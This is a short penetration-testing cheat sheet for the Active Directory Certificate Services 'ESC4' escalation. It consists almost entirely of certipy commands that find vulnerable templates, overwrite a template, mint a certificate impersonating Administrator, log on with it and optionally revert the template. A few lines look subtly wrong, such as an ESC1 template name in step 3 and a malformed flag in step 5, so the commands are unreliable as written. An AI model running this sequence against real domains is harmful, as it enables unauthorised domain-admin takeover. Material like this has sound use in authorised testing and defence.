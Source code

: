 # ADCS ESC4

% adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```

## 2. Write over template
```
certipy template -u '<username>@<domain>' -p '<password>' -dc-ip '<DC_IP>' -template '<ESC4_TEMPLATE>' -write-default-configuration
```
## 3. Request a cert that impersonates Administrator
```
certipy req -u <username> -p '<password>' -target <CA_FQDN> -ca <CA_NAME> -dc-ip <DC_IP> -dc-host <DC_HOST> -template <ESC1_TEMPLATE> -upn '<ADMIN_USER>@<DOMAIN>' -sid <ADMIN_SID>
```

## 4. Log on with the minted cert
```
certipy auth -pfx <ADMIN_USER>.pfx -dc-ip <DC_IP>
```

## 5. (Optional) Reverting Template
```
certipy template -u '<username>@<domain>' -p '<password>' -dc-ip '<DC_IP>' -template '<ESC4_TEMPLATE>' -write--configuration <ESC4.json> -no-save
```
